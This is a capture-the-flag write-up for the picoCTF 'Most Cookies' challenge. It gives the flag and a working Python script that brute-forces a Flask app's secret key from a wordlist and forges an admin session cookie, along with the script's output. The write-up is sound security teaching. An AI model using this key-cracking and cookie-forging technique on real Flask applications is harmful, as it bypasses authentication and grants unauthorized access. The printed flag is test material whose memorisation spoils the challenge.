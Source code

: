 # Most Cookies
__Flag:__`picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Description
> Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:6259/

## Solution
This was a confusing challenge for me. So this challenge deals with flask cookies, for example, our session cookie:`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZyrxZg.sIwo7Z59uyO8iKRtWLMNolWwpgw`.

Now this cookie is base 64 encoded, so if you decode it you will get: `very auth: blank`.

Our goal here, and the way to get the flag is to set `very auth` to `admin`. However, we cannot do that. The thing is the second part of the cookie is signed by an algorithm using a secret key, and without finding that secret key, the server will not accept the cookie. 

Now, the wordlist for the secret key is given in the `server.py` file. Using a python script, we can find the secret key and thus, the admin cookie which we will input.
```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zyro9w.RZkvSmhhFTnRR7SbIK_n5pt9wyM"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)

```
```
Secret Key: gingersnap
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyrwJw.ubUbLt-OSVdMFv2c6MsAr9cRaRc
```

<img width="561" alt="{F5C1BF0B-29FB-4C48-BF76-C625D5BA18A5}" src="https://github.com/user-attachments/assets/161ea9c8-4db1-4c95-9764-999715af79e5">
